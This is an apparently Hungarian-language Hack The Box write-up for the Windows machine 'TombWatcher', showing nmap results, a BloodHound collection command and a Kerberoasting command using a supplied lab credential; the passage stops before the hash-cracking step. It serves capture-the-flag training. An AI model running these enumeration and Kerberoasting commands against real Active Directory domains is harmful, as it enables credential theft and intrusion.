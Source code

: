 # HTB TombWatcher - Writeup (magyar)

**Platform:** Windows  
**IP:** 10.10.11.72

**Difficulty:** Medium 

---

## Recon / Felderítés

### NMAP

```
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows AD LDAP (SSL)
3268/tcp  open  ldap          Microsoft Windows AD LDAP (GC)
3269/tcp  open  ssl/ldap      Microsoft Windows AD LDAP (GC SSL)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
9389/tcp  open  mc-nmf        .NET Message Framing
49666-49737/tcp több nyitott MSRPC port
```
### SMB + clock-skew

- SMB time/clock-skew: +6h59m (időszinkron kell Kerberoshoz!)

---

## BloodHound, Kerberoasting, első user chain

### BloodHound adatgyűjtés

```
nxc bloodhound -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb --no-pass-pol
```
- Generált zip-ből elemzés, sima "entry level" domain usert találsz (henry).

### Kerberoasting

```
python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```

- Eredmény: kerberoast hash, törhető **hashcattel**:
